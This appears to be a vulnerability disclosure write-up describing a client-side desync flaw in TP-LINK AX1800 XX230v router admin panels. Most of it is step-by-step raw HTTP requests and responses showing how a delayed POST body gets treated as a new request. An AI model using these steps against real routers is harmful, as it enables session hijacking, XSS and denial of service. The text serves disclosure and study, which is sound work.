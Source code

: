 # CSD-AX1800-XX230v
A critical vulnerability has been found in the remote access panel of<br/>
all TP-LINK AX1800 XX230v GPON routers. The identified vulnerability,<br/>
a client-side desync (CSD) issue, affects the HTTP/1.1 protocol used by<br/>
the affected routers. This vulnerability is triggered by delaying the<br/>
request body in a POST request. The server expects the request body<br/>
and Content-Length header to be received within a specific time frame.<br/>
However, in this case, the server does not correctly handle the delayed<br/>
request body and interprets it as a new connection. This leads to a range<br/>
of security issues, including cross-site scripting (XSS), session hijacking,<br/>
and denial of service (DoS).<br/>

1. The attacker sends a POST request with a malicious body to the target<br/>
server, ensuring the headers are correct:<br/>
POST / HTTP/1.1<br/>
Host: *.*.*.*:8888<br/>
Accept-Encoding: gzip, deflate, br<br/>
Accept: */*<br/>
Accept-Language: en-US;q=0.9,en;q=0.8<br/>
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML,<br/>
 like Gecko) Chrome/131.0.6778.86 Safari/537.36<br/>
Connection: keep-alive<br/>
Cache-Control: max-age=0<br/>
Content-Length: 307<br/>
Content-Type: application/x-www-form-urlencoded<br/>

2. The attacker introduces an artificial delay before sending the body.<br/>

3. The server times out the wait for the request body but doesn't terminate<br/>
the connection, allowing the attacker to send the request body independently:<br/>
HTTP/1.1 200 OK<br/>
Content-Type: text/html; charset=utf-8<br/>
X-Frame-Options: SAMEORIGIN<br/>
Content-Security-Policy: frame-ancestors 'none'<br/>
Content-Length: 82049<br/>
X-Frame-Options: SAMEORIGIN<br/>
Set-Cookie: JSESSIONID=deleted; Expires=Thu, 01 Jan 1970 00:00:01 GMT;<br/>
 Path=/; HttpOnly<br/>
Connection: keep-alive<br/>

5. The attacker sends the body of the request independently:<br/>
GET / HTTP/1.1<br/>
Host: *.*.*.*:8888<br/>
Accept-Encoding: gzip, deflate, br<br/>
Accept: */*<br/>
Accept-Language: en-US;q=0.9,en;q=0.8<br/>
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML,<br/>
 like Gecko) Chrome/131.0.6778.86 Safari/537.36<br/>
Connection: close<br/>
Cache-Control: max-age=0<br/>

6. The body is interpreted by the server as a new request due to its delayed<br/>
transmission, causing a condition for XSS payloads or DoS attacks:
HTTP/1.1 200 OK<br/>
Content-Type: text/html; charset=utf-8<br/>
X-Frame-Options: SAMEORIGIN<br/>
Content-Security-Policy: frame-ancestors 'none'<br/>
Content-Length: 82049<br/>
X-Frame-Options: SAMEORIGIN<br/>
Set-Cookie: JSESSIONID=deleted; Expires=Thu, 01 Jan 1970 00:00:01 GMT;<br/>
 Path=/; HttpOnly<br/>
Connection: close<br/>
